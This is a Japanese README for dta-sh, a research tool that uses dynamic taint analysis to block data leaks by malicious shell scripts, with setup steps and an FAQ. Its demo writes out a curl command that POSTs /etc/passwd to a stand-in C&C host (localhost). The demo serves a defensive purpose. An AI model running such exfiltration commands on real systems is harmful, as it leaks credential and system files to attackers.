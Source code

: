 # 動的テイント解析を用いた悪性シェルスクリプトによる情報漏洩の阻止

dta-sh は動的テイント解析を用いて悪性シェルスクリプトによる情報漏洩を阻止するためのツール。
動的テイント解析には[libdft64](https://github.com/AngoraFuzzer/libdft64)を用いる。

## クイックスタート
`/etc/passwd`を外部に漏洩させるシェルスクリプトスクリプトの漏洩を阻止するデモ。
このシェルスクリプトはcurlコマンドを使用してPOSTリクエストで外部にファイルを送信する。
`src/sendfile.sh`にある。
```bash
# 情報漏洩を行うコマンド
curl -X POST -F f=@"/etc/passwd" localhost:9999
```
ファイルの送信先（漏洩先）は自分自身とする。
本来localhost:9999の部分は攻撃者が用意するC&Cサーバのドメイン名であるが、漏洩させるファイルを自身で受け取るためここではlocalhostとなる。

### デモの実行方法
環境は Ubuntu 20.04 LTS or 22.04 LTSで動作確認済み（WSL2でも動く）。

```bash
# 依存関係をインストール（初回のみ）
./setup.sh

# 環境変数(PIN_ROOT)を設定
source env.init

# POSTリクエストを受け取るHTTPサーバを起動
python3 server.py &

# dta-shをビルド
cd src
make

# デモを実行
make test
```
ログがたくさん出て、最終的に`[pid 93112] alert           : !!!! ABORT !!!!    Data leak detected`と出力されたらこのデモは成功。
うまく行かない場合は[FAQ](#FAQ)を参照。

### dta-shを使わない場合
作成したツール dta-sh を使わない場合どうなるか確認。
単に`sendfile.sh`を実行する。
```bash
./sendfile.sh
```
先程サーバを起動したターミナルに戻ると、赤文字の`/etc/passwd`の内容が出力されているはず。
これはサーバが受け取ったデータで、POSTリクエストにより`/etc/passwd`の内容が漏洩した。

## 各ディレクトリ・ファイルの説明
```
.
├── env.init    # 環境変数(PIN_ROOT)の設定
├── libdft64    # 動的テイント解析ライブラリ
├── pin-3.20-98437-gf02b61307-gcc-linux         # libdft64の依存ライブラリ
├── pin-3.20-98437-gf02b61307-gcc-linux.tar.gz  # ↑の圧縮ファイル
├── README.md   # このファイル
├── server.py   # POSTリクエストを受け取るHTTPサーバ
├── setup.sh    # セットアップファイル
└── src # ソースコード
    ├── dta-sh.cpp      # ツールの本体
    ├── dta-sh.h        # ヘッダファイル
    ├── Makefile        # ビルドスクリプト
    ├── makefile.rules  # ビルドスクリプト
    └── sendfile.sh     # 情報漏洩を行うシェルスクリプト
```

## FAQ
エラーに関するものは起きたエラーがそのままタイトル。

### Makefile:18: /Config/makefile.default.rules: No such file or directory
[`PIN_ROOT`](#PIN_ROOTとは)が設定されておらず、PinのMakefileが見つからない。
Pinのディレクトリを環境変数経由で教えてやる。

```bash
source env.init
```

### dta-sh.cpp:58:15: error: unused variable 'sockfd' [-Werror=unused-variable]
Pintoolのコンパイルに`-Werror`が有効なため、WarningがすべてErrorとして扱われる。
Pintoolのコンパイルオプションはpin-3.20-98437-gf02b61307-gcc-linux/source/tools/Config/makefile.unix.configで定義されているため、`-Werror`を削除することでコンパイルが通る（WarningはWarningとして扱われる）。

```diff
- TOOL_CXXFLAGS_NOOPT := -Wall -Werror -Wno-unknown-pragmas -DPIN_CRT=1
+ TOOL_CXXFLAGS_NOOPT := -Wall -Wno-unknown-pragmas -DPIN_CRT=1
```

### likely()/unlikely()
条件分岐を最適化するためにコンパイラに与えるヒント。
libdft64/src/branch_pred.hで定義されている。

ref. https://stackoverflow.com/questions/109710/how-do-the-likely-unlikely-macros-in-the-linux-kernel-work-and-what-is-their-ben

### curl: (7) Failed to connect to localhost port 9999 after 468 ms: Connection refused
ローカルサーバが立っていない。
サーバを立ててやる。`&`はバックグラウンド実行の意味（Bashの機能）。

```
python3 server.py &
```

### PIN_ROOTとは
libdft64にPinのパスを教えるための環境変数。
make時、libdft64はこの変数を読んでpin.Hなりの場所を知る。

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#UsefulVariables

### なぜMakefileとmakefile.rulesの2つがあるのか
Makefileは設定（ビルド用の変数`CXX := g++`など）を読み込む、ビルドレシピを読み込むファイル、
makefile.rulesはビルドするlibdft toolを定義するファイル。
Makefileは編集せず、makefile.rulesにのみビルドするlibdft toolを定義する。
変数などが隠されていて分かりにくい部分もあるが、libdft64/toolsのビルド方法をそのまま採用した。

### libdft tool（dta-sh.cppなど）のビルドレシピの場所
libdft toolを作る場合は、明示的にツールのビルドレシピを定義しなくてよい。
makefile.rulesの`TOOL_ROOT`にビルドするツールのファイル名（の拡張子を取ったもの）を定義するだけ。
詳細なビルドレシピは別の場所で定義されていて隠されている。
例えば、dta-sh.cppというlibdft toolをビルドするためには`TOOL_ROOT := dta-sh`と定義する。
するとmakeを実行するだけでobj-intel64/dta-sh.soというファイルが生成される。

### コールバック関数のTHREADIDとは
本ツールでは使わない。
THREADIDはPinのスレッドが使用するデータの配列へのインデックス。
ここでのスレッドはWinAPIのスレッドやPthreadsのスレッドではなく、Pinが管理するスレッド。

> Pin also provides an analysis routine argument (IARG_THREAD_ID), which passes a Pin-specific thread ID for the calling thread. This ID is different from the O/S system thread ID, and is a small number starting at 0, which can be used as an index to an array of thread data or as the locking value to Pin user locks. See the example Instrumenting Threaded Applications for more information.

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#MT
